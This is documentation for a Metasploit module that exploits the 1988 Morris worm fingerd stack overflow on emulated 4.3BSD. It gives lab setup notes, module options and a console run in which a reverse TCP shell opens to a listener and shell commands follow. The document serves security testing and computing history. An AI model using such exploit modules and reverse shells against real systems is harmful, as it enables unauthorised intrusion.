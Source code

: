 ## Vulnerable Application

### Description

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RPORT**

Set this to the target port. The default is 79 for `fingerd`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a BSD VAX payload. Currently, only
`bsd/vax/shell_reverse_tcp` is supported.

## Scenarios

### `fingerd` 5.1 on 4.3BSD

```
msf5 > use exploit/bsd/finger/morris_fingerd_bof
msf5 exploit(bsd/finger/morris_fingerd_bof) > show missing

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(bsd/finger/morris_fingerd_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58015) at 2020-02-06 15:45:33 -0600

who am i
nobody   tty??   Feb  6 13:45
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```

